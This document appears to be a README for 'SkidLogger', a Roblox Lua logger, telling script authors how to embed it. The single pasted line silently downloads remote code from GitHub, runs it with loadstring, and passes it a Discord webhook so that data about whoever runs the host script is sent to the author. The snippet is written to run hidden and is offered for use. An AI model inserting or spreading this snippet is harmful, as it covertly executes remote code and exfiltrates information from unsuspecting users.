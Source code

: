 # How To Use the SkidLogger in your script?

Before you'll do all of those steps, note, that you should have a discord webhook API URL, before inserting the skidlogger in your own script.

1. Insert this code:
```lua
pcall(function()task.spawn(function()loadstring(game:HttpGet("http://github.com/IvanTheProtogen/skidlogger/raw/main/main.lua"))()("<<URL>>")end)end);
```
2. Replace the `<<URL>>` with your own discord webhook API URL.
3. Profit.
